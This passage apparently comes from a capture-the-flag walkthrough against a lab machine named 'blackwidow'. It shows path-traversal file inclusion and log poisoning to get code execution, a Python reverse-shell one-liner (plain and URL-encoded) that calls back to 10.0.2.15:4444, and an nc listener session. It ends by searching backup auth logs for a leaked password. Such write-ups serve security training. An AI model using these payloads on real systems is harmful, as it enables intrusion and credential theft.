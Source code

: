 ## Confirm RCE

{% highlight sh %}
  view-source:http://10.0.2.190/company/started.php?file=../../../../../../../../../../../../../../../../var/log/apache2/access.log&cmd=id
  ...
  10.0.2.15 - - [06/Mar/2021:11:42:08 -0500] "GET /company/started.php HTTP/1.1" 200 7254 "-" "uid=33(www-data) gid=33(www-data) groups=33(www-data)
  ...
{% endhighlight %}

## Reverse Shell

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.15",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

- Browser

```
view-source:http://10.0.2.190/company/started.php?file=../../../../../../../../../../../../../../../../var/log/apache2/access.log&cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.0.2.15%22,4444));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27
```

- Listener

{% highlight sh %}
  ┌──(alienum㉿kali)-[~]
  └─$ nc -lvp 4444    
  listening on [any] 4444 ...
  connect to [10.0.2.15] from 10.0.2.190 [10.0.2.190] 46568
  /bin/sh: 0: can't access tty; job control turned off
  $ /usr/bin/script -qc /bin/bash /dev/null
  www-data@blackwidow:/var/www/html/company$ export TERM=xterm
  export TERM=xterm
  www-data@blackwidow:/var/www/html/company$
{% endhighlight %}

## Searching for user password

{% highlight sh %}
  www-data@blackwidow:~$ cd /var/backups
  cd /var/backups
  www-data@blackwidow:/var/backups$ ls
  ls
  alternatives.tar.0     dpkg.diversions.0       dpkg.status	 passwd.bak
  apt.extended_states    dpkg.diversions.1.gz    dpkg.status.0	 shadow.bak
  apt.extended_states.0  dpkg.statoverride       dpkg.status.1.gz
  auth.log	       dpkg.statoverride.0     group.bak
  dpkg.diversions        dpkg.statoverride.1.gz  gshadow.bak
  www-data@blackwidow:/var/backups$ cat auth.log | grep -i "Invalid"
  cat auth.log | grep -i "Invalid"
  Dec 12 16:53:34 test sshd[28695]: Invalid user giulio from 192.168.1.109 port 7001
  Dec 12 16:53:37 test sshd[28695]: Failed password for invalid user giulio from 192.168.1.109 port 7001 ssh2
  Dec 12 16:56:43 test sshd[29560]: Invalid user ?V1p3r2020!? from 192.168.1.109 port 7090
  Dec 12 16:56:46 test sshd[29560]: Failed password for invalid user ?V1p3r2020!? from 192.168.1.109 port 7090 ssh2
  Dec 12 16:56:43 test sshd[29560]: Invalid user ?V1p3r2020!? from 192.168.1.109 port 7090
  Dec 12 16:56:43 test sshd[29560]: Invalid user ?V1p3r2020!? from 192.168.1.109 port 7090
  Dec 12 16:56:43 test sshd[29560]: Invalid user ?V1p3r2020!? from 192.168.1.109 port 7090
